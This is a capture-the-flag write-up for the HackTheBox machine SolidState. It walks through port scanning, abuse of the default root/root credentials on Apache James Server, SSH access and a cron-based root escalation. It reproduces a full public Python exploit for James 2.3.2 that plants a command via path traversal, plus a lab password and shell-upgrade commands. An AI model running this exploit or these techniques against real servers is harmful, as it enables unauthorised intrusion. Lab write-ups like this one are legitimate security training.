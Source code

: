 ```yaml
---
title: "SolidState"
date: 2023-06-26T12:51:31+02:00
tags: ["linux","James Server"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: /HTB/SolidState.png
description: "This write-up will be about the HackTheBox machine called SolidState. "
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
description: "A windows room that is vulnerable to James Server."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: SolidState
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/SolidState

![Untitled](/HTB/SolidState.png)

## Tools Used

- Nmap
- nc
- searchsploit

## Port Scanning

Other room, other port scan.

- As always:
	
	```bash
	 sudo nmap -p- --open -sCV -sS --min-rate 5000 -vvv -n -Pn 10.10.10.51 -oN escaneo
	```
![Untitled](/HTB/nmap-solidstate.png)

I found 5 open ports 22(tcp), 25(smtp James Server), 80(http), 110(pop3 James Server), 119(nntp James Server).

## Enumeration

As always I first do a scan with `whatweb 10.10.10.51`, but on this case it throws me nothing relevant. So next,
I tried to do a scan of posible directories, and nothing relevant to. I tried to do a very intensive research becaus 
the last machine I did, I spent a lot of time for this reason. In this case I can say that there's aparently
nothing vulnerable.


## Exploiting

So after all of the above, I started looking for information about the remaining ports and discovered that there 
were different ways to obtain information by using `nc` or `telnet`.

![Untitled](/HTB/119-solidstate.png)

It took me a bit longer to set up this machine since port 4555 wasn't displayed in my nmap analysis, but eventually, I realized that it was indeed open. 
It was thanks to this that I managed to hack into the machine, as I read online that there was a possibility of 
being able to log in with root/root. 

![Untitled](/HTB/110-solidstate.png)

After this, I was able to modify the passwords for all the email users and 
thus connect to port 110 with telnet using mindy/platano. Following that, I started investigating Mindy's emails 
and found one containing some credentials, which allowed me to connect via SSH to the user mindy.

![Untitled](/HTB/pass-solidstate.png)

Initially, I had a bit of trouble with the bash shell when working with the mindy user, but later I found two ways to overcome 
it: with an exploit that I will provide below, and with `sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51 bash`.

```bash
 #!/usr/bin/python
 #
 # Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
 # Date: 16\10\2014
 # Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
 # Vendor Homepage: http://james.apache.org/server/
 # Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
 # Version: Apache James Server 2.3.2
 # Tested on: Ubuntu, Debian
 # Info: This exploit works on default installation of Apache James Server 2.3.2
 # Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

 import socket
 import sys
 import time

 # specify payload
 #payload = 'touch /tmp/proof.txt' # to exploit on any user 
 payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
 # credentials to James Remote Administration Tool (Default - root/root)
 user = 'root'
 pwd = 'root'

 if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

 ip = sys.argv[1]

 def recv(s):
        s.recv(1024)
        time.sleep(0.2)

 try:
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()

    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
 except:
    print "Connection failed."

```

![Untitled](/HTB/mindy-solidstate.png)

![Untitled](/HTB/casiroot-solidstate.png)

The machine is pawned :) !!!

## TTY Treatment

```bash
 script /dev/null -c bash
 ctrl + z
 stty raw -echo; fg
 restet xterm
 export TERM=xterm
```

## Gaining an Initial Foothold

We are in now so, as always I do:

```bash
 sudo -l
 cat /etc/crontab
 find / -perm -4000 2>/dev/null
 find / -type f -writable 2>/dev/null
 bash procmon.sh
 lsb_release -a
 uname -a
 id
 getcap -r / 2>/dev/null
 ...
```
At first I started to get frustrated because trying with procmon.sh and doing a `cat /etc/hosts` I didn't get 
any curious process. But when I did a `find / -type f -writable 2>/dev/null` I found that there was a 
file in the temporary directory and it was running every 1 minitu so I got on with it.

![Untitled](/HTB/root-solidstate.png)

All that's left to do is `bash -p`.

And was root !!!

## Lessons Learned

- What insights did you gain from the room?
    
    I learned about the James Server and ports 25, 119 and 4555.
    
- Were there any novel tools or techniques employed?
    
    The the methodology of these ports.
